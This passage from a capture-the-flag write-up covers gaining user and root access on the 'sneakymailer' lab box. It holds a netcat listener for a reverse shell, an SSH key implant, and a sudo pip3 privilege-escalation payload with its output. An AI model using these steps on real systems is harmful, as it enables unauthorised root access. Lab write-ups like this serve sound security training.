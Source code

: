 At the same time we run a `netcat` listener on our Kali box and wait for the
shell. We then have a shell as `low` and can access the user flag.

    :::text
    nc -l -p 4444

    $ id
    id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)

    $ cat ~/user.txt
    cat ~/user.txt
    73592699b63e47969c6de934654c2325

# Root

We put our ssh public key in the `.ssh/authorized_keys` file and connect to the
box using SSH and run `sudo -l`. We found that we can run `pip3` as root without
password.

    :::text
    kali@kali:~$ ssh low@10.10.10.197
    low@sneakymailer:~$ sudo -l
    ^C^C^Csudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3

We look at the [GTFObins page for pip](https://gtfobins.github.io/gtfobins/pip/#sudo)
and run the commands to create a temporary directory, write a simple `setup.py`
script executing a shell and installing this "script" as root which give us a
`root` shell and allow us to read the `root` flag.

    :::text
    low@sneakymailer:~$ TF=$(mktemp -d)
    low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
    low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /tmp/tmp.FVBLBZ1NUO
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    3d8f51cb4506c19d77aea84d76e6a846

# Wrapping up

The root part was really classic and easy. The user part was awesome! I learn so
much on this box and the conception is clearly different from classical boxes as
their is a lot of "interaction" with the "users" (phishing, pypi).

I clearly recommend this box for an "unexpected" journey.
